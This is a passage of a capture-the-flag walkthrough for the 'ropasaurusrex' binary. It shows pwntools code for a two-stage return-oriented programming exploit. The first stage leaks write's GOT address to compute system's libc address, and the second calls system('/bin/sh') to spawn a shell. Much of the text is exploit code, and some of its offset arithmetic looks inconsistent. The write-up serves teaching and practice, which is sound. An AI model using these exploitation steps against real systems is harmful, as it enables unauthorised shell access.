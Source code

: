 ```python
exploit = b''
exploit += padding
for p in params:
    exploit += p32(p)
input("[1st stage] press any key to send...")
r.send(exploit)
leak = r.recv()
leak = unpack(leak, 'all', endian='little', sign=False)
sysaddr = leak - write_sys_offset
print('address of system: ' + str(hex(sysaddr)))
```

On top of the stack we have the pointer of the write, the return address (`CCCC`, for now we do not need it), and its parameters. The code above, when assembled into shellcode and executed, will execute a `write` syscall, which will write to `stdout` the address of the `write` itself. How did we tell to the `write` what to print? We passed as argument in the stack (remember x86 calling convention, which unlike x64 uses the stack instead of the register for function arguments) the address of `write` in the `GOT` table, which at runtime corresponds to the address of the same function but in `libc`. This means that since we know the offset of the `write` inside the library, we can compute `libc` base to know the address of `system`, which is the function that we'll use to spawn a shell.

**Note about cleaner gadgets**

```python
e = ELF('./ropasaurusrex')
rop = ROP(e)
libc = ELF("./libc-2.27.so")
write_sys_offset = libc.symbols["write"] - libc.symbols["system"]
binsh_sys_offset = libc.symbols["write"] - next(libc.search(b"/bin/sh"))
cleaner = (rop.find_gadget(['pop esi','pop edi','pop ebp','ret']))[0]
```

This gadget will remove the arguments that we put in the stack to correctly execute the call. It is necessary if we want to execute a `ROP` chain.

### Spawning a shell

```python
# STAGE 2
# now we will do another rop, but this time
# we will call system with /bin/sh as argument
# binsh is already present in the binary, I found
# its offset using pwntools

print('address of /bin/sh: ' + str(hex(leak+binsh_sys_offset)))
params = [
    sysaddr,
    b'CCCC',
    leak - binsh_sys_offset
]

exploit = b''
exploit += padding
for p in params:
    if type(p) is not int:
        exploit += p
    else:
        exploit += p32(p)
input("[2nd stage] press any key to send...")
r.send(exploit)

input("press any key to spawn a shell...")
r.interactive()
```
